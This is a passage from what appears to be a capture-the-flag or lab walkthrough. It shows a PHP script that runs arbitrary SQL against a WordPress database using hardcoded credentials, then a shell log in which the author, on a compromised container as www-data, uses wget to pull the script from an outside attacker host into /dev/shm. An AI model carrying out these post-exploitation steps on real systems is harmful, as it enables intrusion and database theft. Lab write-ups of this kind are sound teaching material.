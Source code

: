 ```

<?php
if ($argc < 2) {
    die("Usage: php script.php \"SQL_QUERY\"\n");
}

$query = $argv[1];
$host = '172.17.0.1';
$user = 'wp_user';
$password = 'wp_password';
$database = 'wordpress'; // Change this if needed
$conn = new mysqli($host, $user, $password, $database);

if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error . "\n");
}

$result = $conn->query($query);
if ($result === false) {
    die("Query error: " . $conn->error . "\n");
}
if ($result instanceof mysqli_result) {
    while ($row = $result->fetch_assoc()) {
        echo json_encode($row, JSON_PRETTY_PRINT) . "\n";
    }
    $result->free();
} else {
    echo "Query executed successfully.\n";
}
$conn->close();
?>

```

It takes a query as an argument, connects to the DB and runs it, and prints the results. I’ll upload this to the container:

```

www-data@bf9a078a3627:/dev/shm$ wget 10.10.14.6/sql.php
--2025-01-31 18:14:36--  http://10.10.14.6/sql.php
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 718 [application/octet-stream]
Saving to: 'sql.php'
                                                           
sql.php             100%[===================>]     718  --.-KB/s    in 0s

2025-01-31 18:14:36 (45.2 MB/s) - 'sql.php' saved [718/718]

```
